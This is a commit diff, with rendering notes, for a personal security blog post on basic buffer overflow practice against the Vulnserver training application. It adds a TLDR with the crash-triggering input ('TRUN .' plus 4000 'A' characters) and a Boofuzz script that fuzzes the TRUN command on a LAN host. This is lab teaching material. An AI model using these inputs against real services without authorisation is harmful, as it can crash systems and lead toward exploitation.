

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-05-03-Basic-BOF.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2020-05-03-Vulnserver-TRUN.md to 2020-05-03-Basic-BOF.md

````diff
--- a/_posts/2020-05-03-Vulnserver-TRUN.md
+++ b/_posts/2020-05-03-Basic-BOF.md
@@ -7,13 +7,51 @@ tags: [pentest, ctp, bof]
 toc: true
 ---
 
-# Introduction #
+## TLDR; ##
 
-Vulnserver is great resource for practicing buffer overflow. Source code can be found on: https://github.com/stephenbradshaw/vulnserver. In this blog post we will cover basic buffer overflow.
+* No bad chars
+* Buffer is approx 4000 chars
+* Use "TRUN ." + 4000 * "\x41" to trigger it
 
-#### TLDR; No bad chars, buffer is approx 4000 chars and TRUN . to trigger it. ####
+# Introduction to buffer overflow #
+
+.... to do ....
+Vulnserver is great resource for practicing buffer overflow.
+Source code can be found on: https://github.com/stephenbradshaw/vulnserver.
 
 ## Fuzzing ##
+
+To detect buffer overflow vulnerability, first we need to find a way to crash the application causing segmentation fault. There are many fuzzers which can be used, but most popular ones are Spike and Boofuzz with Spike being not developed any more and Boofuzz being actively developed.
+
+### Boofuzz skeleton ###
+
+```
+#!/usr/bin/python
+import sys
+from boofuzz import *
+
+host = '192.168.0.31'      # Server's IP address
+port = 9999                # Port on which application is listening
+
+def main():
+
+   session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))
+
+   s_initialize("TRUN command")           # session name
+   s_string("TRUN", fuzzable = True)      # command name defined as string which should be fuzzed
+   s_delim(" ", fuzzable = True)          # delimiter (space) which should be fuzzed
+   s_string("TEST", fuzzable = True)      # command parameter defined as string which should be fuzzed
+
+   session.connect(s_get("TRUN command"))
+   session.fuzz()
+
+if __name__ == "__main__":
+    main()
+
+```
+
+Fuzzing can take a long time. To avoid looking at debugger and stoping fuzzer, we can extend script by adding receive_fuzzer function and post_test_case_callbacks=[receive_banner] argument to Session function call.
+Function receive_banner tries to get data from socket, and if no data is received it indicates that application is crashed and prints payload length and writes paylod to a file.
 
 ```
 #!/usr/bin/python
````
